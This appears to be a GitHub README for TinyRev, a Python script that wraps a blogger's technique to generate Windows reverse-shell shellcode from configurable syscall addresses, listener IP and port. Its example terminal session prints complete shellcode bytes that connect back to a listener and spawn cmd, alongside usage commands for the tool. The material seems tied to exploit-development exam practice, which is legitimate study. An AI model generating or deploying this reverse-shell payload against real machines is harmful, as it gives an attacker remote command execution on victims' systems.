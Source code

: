## TinyRev

This is just a wrapper on absolomb's reverse shell they describe [on their blog](https://www.absolomb.com/2018-07-24-VulnServer-GTER/). This will literally just create the shellcode based on configurable syscall addresses, LHOST, and LPORT arguments, you still have to make sure your stack-alignment is correct. The shellcode should be 120 bytes long. 

**Warning**, this wrapper is very hacky and probably not very useful lol. I'm pretty sure ASLR kills this approach, but I was very bored today.

## Usage

Default usage:
`python tinyrev.py`

To get the command line syntax you need for arwin.exe to find the syscall addresses:
`python tinyrev.py -a, --arwin`

## Example

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py                                    
Enter WSASocketA address (example - 7718E562): 7718E562
Enter LHOST IP (example - 192.168.1.211): 192.168.1.211
Enter LPORT (example - 443): 443
Enter connect address (example - 7718E562): 771868f5
Enter CreateProcessA address (example - 7718E562): 76a42082
Enter variable name for shellcode: revshell


revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x62"
revshell += "\xe5\x18\x77\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x01\xd3\x66\x68\x01"
revshell += "\xbb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xf5"
revshell += "\x68\x18\x77\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1"
revshell += "\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1"
revshell += "\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04"
revshell += "\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51"
revshell += "\x52\xbb\x82\x20\xa4\x76\xff\xd3"


STACK ALIGNMENT NOT INCLUDED! ;)
```


## Thanks to absolomb who is a genius.


